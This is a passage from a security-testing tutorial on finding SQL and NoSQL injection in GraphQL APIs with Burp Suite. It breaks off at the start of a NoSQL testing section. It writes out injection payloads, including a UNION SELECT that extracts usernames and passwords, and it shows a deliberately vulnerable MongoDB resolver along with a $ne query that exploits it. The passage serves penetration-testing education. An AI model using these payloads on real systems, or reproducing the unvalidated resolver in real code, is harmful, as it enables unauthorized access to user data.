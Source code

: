 1. **Identify injectable parameters**:
   - Create a request in Burp Repeater targeting a GraphQL query that accepts user input
   - Example: `{"query": "query { user(username: \"admin\") { id username email } }"}`

2. **Test for SQL injection with Burp Repeater**:
   - Modify the parameter to include SQL injection payloads:
     - `{"query": "query { user(username: \"admin' OR 1=1 --\") { id username email } }"}`
     - `{"query": "query { user(username: \"admin\\\" OR \\\"1\\\"=\\\"1\") { id username email } }"}`
     - `{"query": "query { user(username: \"' UNION SELECT 1,username,password FROM users --\") { id username email } }"}`

3. **Use Burp Intruder for systematic testing**:
   - Send your request to Intruder
   - Set the position around the injection point: `{"query": "query { user(username: \"§admin§\") { id username email } }"}`
   - Use a list of SQL injection payloads from Burp's built-in payload options
   - Add grep match rules to identify successful injections (look for multiple records, error messages, etc.)

4. **Analyze the results**:
   - Look for responses with different lengths or content
   - Check for database error messages that leak information
   - Verify if any payloads return more data than expected (indicating successful injection)

#### NoSQL Injection

GraphQL APIs built on NoSQL databases like MongoDB are vulnerable to NoSQL injection attacks:

```javascript
// Vulnerable resolver using MongoDB
const resolvers = {
  Query: {
    user: async (_, { username }) => {
      // VULNERABILITY: Directly using user input in query object
      return await UserCollection.findOne({ username: username });
    }
  }
};
```

If the input isn't properly validated, an attacker could send:

```graphql
query {
  user(username: {$ne: null}) {
    id
    username
    email
  }
}
```

In MongoDB, this would translate to finding a user where the username is not equal to null—essentially returning the first user in the database.

Testing for NoSQL injection with Burp Suite:
